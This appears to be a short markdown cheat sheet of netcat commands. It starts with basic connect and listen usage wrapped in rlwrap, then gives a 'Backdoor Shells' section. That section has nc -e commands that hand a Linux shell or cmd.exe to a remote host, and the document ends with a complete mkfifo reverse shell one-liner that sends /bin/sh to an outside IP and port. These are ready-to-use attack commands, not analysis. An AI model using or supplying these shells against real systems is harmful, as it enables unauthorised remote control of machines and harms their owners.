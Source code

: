 # Netcat Tips

## Fundamentals:

Connect to a netcat client:
- `rlwrap nc [IP Address] [port]`

Connect to a netcat Listener:
- `rlwrap nc -lvp [Localport]`

Listen on a TCP port:
- `rlwrap nc -lvp [Localport]`

Listen on a UDP port:
- `rlwrap nc -lvup [port]`

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- `rlwrap nc [Your IP Address] -e /bin/sh`
- `rlwrap nc [Your IP Address] -e /bin/bash`
- `rlwrap nc [Your IP Address] -e /bin/zsh`
- `rlwrap nc [Your IP Address] -e /bin/ash`


Windows: 
- `rlwrap nc -lv [localport] -e cmd.exe`

Linux netcat reverse shell: 
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f`